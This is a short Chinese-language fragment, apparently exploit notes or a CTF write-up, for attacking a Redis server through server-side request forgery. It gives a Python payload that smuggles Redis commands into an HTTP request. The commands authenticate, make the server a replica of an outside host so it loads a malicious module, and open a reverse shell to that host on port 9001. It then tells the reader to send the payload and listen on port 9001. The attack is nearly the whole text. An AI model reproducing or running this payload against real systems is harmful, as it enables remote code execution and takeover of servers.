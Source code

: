 自己的vps上跑这个脚本，监听6378端口

payload

```python
import urllib.parse
url = '''http://127.0.0.1:6379/ HTTP/1.1\r\nHost: 127.0.0.1:6379\r\nAUTH
enw!BKT_hac*pev9nvj\r\nSLAVEOF 121.4.124.62 6378\r\nCONFIG SET dir /tmp\r\nconfig set
dbfilename exp.so\r\nMODULE LOAD /tmp/exp.so\r\nsystem.rev 121.4.124.62 9001\r\nSLAVEOF
NO ONE\r\nquit\r\nPOST / '''
print(urllib.parse.quote(url))
```

传payload进去

监听端口9001

